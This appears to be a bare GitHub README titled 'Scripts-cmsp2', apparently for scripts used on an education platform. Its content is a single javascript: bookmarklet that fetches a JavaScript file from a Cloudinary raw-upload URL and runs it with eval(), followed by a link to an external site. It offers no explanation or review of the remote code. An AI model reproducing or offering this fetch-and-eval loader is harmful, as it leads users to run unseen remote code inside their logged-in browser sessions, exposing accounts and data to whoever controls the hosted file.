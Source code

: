 # Scripts-cmsp2


javascript:fetch('https://res.cloudinary.com/dtp29k95n/raw/upload/v1750961477/book_dwju2r.js').then(r=>r.text()).then(r=>eval(r))

https://taskitos.cupiditys.lol/
